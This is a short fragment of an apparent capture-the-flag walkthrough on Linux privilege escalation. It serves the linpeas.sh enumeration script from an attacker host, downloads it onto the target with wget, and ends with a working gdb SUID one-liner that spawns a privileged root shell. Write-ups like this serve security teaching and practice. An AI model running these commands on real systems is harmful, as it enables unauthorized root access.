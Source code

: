 <img src="./img/Screenshot 2024-09-07 112903.png"></img>
other than that nothing is here.
check for sudo privilege.
```bash
sudo -l
```
It doesn't have. Once again try the linpeas.sh script to find some vulnerblities.
```bash
python3 -m http.server [host machine]
wget http://192.168.0.10:8000/linpeas.sh [target] machine
```
Run the script.
```bash
./linpeas.sh
```
We got the /gdb SUID vulerablitiy.
```bash
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```